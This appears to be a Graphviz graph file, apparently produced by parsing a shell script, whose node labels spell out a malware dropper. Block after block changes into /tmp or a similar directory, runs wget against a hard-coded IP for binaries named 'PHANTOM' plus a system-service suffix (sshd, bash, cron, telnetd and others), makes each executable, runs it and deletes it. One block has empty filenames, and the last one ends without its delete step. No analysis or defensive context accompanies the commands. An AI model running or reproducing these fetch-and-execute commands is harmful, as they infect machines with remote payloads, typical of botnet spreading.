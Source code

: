 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://217.147.169.56/PHANTOM.ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x PHANTOM.ntpd "];
12 -> 14 [label=";,"];
14 [label="./PHANTOM.ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf PHANTOM.ntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://217.147.169.56/PHANTOM.sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x PHANTOM.sshd "];
30 -> 32 [label=";,"];
32 [label="./PHANTOM.sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf PHANTOM.sshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://217.147.169.56/PHANTOM.openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x PHANTOM.openssh "];
48 -> 50 [label=";,"];
50 [label="./PHANTOM.openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf PHANTOM.openssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://217.147.169.56/PHANTOM.bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x PHANTOM.bash "];
66 -> 68 [label=";,"];
68 [label="./PHANTOM.bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf PHANTOM.bash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://217.147.169.56/PHANTOM.tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x PHANTOM.tftp "];
84 -> 86 [label=";,"];
86 [label="./PHANTOM.tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf PHANTOM.tftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://217.147.169.56/PHANTOM.wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x PHANTOM.wget "];
102 -> 104 [label=";,"];
104 [label="./PHANTOM.wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf PHANTOM.wget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://217.147.169.56/PHANTOM.cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x PHANTOM.cron "];
120 -> 122 [label=";,"];
122 [label="./PHANTOM.cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf PHANTOM.cron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://217.147.169.56/PHANTOM.ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x PHANTOM.ftp "];
138 -> 140 [label=";,"];
140 [label="./PHANTOM.ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf PHANTOM.ftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://217.147.169.56/PHANTOM.pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x PHANTOM.pftp "];
156 -> 158 [label=";,"];
158 [label="./PHANTOM.pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf PHANTOM.pftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://217.147.169.56/PHANTOM.sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x PHANTOM.sh "];
174 -> 176 [label=";,"];
176 [label="./PHANTOM.sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf PHANTOM.sh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://217.147.169.56/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://217.147.169.56/PHANTOM.apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x PHANTOM.apache2 "];
210 -> 212 [label=";,"];
212 [label="./PHANTOM.apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf PHANTOM.apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://217.147.169.56/PHANTOM.telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x PHANTOM.telnetd "];
228 -> 230 [label=";,"];
230 [label="./PHANTOM.telnetd "];
230 -> 231 [label=";,"];
}
